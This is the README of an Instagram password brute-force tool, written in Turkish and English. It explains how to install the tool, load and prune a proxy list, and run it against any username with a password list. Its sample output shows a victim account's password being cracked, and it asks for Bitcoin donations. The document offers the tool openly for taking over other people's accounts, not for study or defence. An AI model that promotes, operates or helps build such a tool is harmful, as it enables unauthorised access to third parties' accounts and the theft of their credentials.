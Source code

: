 # Instagram Brute Force Attacker

[![Version](https://img.shields.io/badge/Version-3.1.0-green)]()
[![Python](https://img.shields.io/badge/Python-v3.9-yellow)]()


Bu program, bir proxy listesi verildiğinde, gönderdiğiniz herhangi bir Instagram hesabına kaba kuvvet uygulayacaktır.

### Notlar

Bu küçük bir deneme projesidir, geliştirmeye devam edilmeyecektir.

### Mali Destek

Projeye destek olmak isterseniz

**Bitcoin Wallet:** 1A9V9srcmERCg5AvHtkRLb3DbZyu2PM9ic<br/>


## Gereksinimler

- Python _v3.9_
- proxy list

## Kurulum Gereksinimleri

### Pipenv Kurulumu

```
pip install pipenv
```

### Çalışma Ortamı

Python 3.9 kurulu olmalıdır

```
pipenv --python 3.9
```

### Kurulum Gereksinimleri

```
pipenv install
```

## Yardim

```
usage: instagram.py [-h] [-u Kullanici] [-p Şifre Listesi] [-px Proxy Listesi] [--prune ISTISNA] [--stats] [-nc] [-m MODE]

optional arguments:
  -h, --help            show this help message and exit
  -u USERNAME, --username KullaniciAdi
                        eposta veya kullanıcı adı
  -p PASSLIST, --passlist PASSLIST
                        şifre listesi
  -px PROXYLIST, --proxylist PROXYLIST
                        proxy listesi
  --prune PRUNE         Veritabanından çıkar
  --stats               proxy istatistikleri
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots
```

## Proxies

The system needs a list of proxies to work. Once uploaded, proxies are saved into a database.<br/>

### Upload

Upload a list of proxies into the program. The proxy file must have a format of `ip:port`<br/>

`proxies_list.txt`

```
51.79.248.208:28753
51.222.12.245:10084	
5.161.86.206:1080
66.42.224.229:41679
72.210.221.197:4145
184.178.172.25:15291
```

To upload a list of proxies a similar syntax must be followed.

```
python instagram.py -px <path to proxy list>
```

### Stats

This gives an insight into the health of the proxies in the database.

```
python instagram.py --stats
```

### Prune

This allows the able to get rid of proxies with a score below a given score.<br/>
It is recommended that you run the `--stats` and prune the database of proxies<br/>
who have a proxy score below `Q1`.

```
python instagram.py --prune 0.05
```

Pruning is not a requirement because the <br/>
the system will automatically learn which proxies perform poorly and stop using them.

### Usage

```
python instagram.py -u <username> -p <passlist>
```

### Run

```
[-] Wordlist: passlist.txt
[-] Username: Sami09.1
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
```

### Stop

```
[-] Wordlist: passlist.txt
[-] Username: Sami09.1
[-] Password: Sami123
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: Sami09.1
[+] Password: Sami123
```
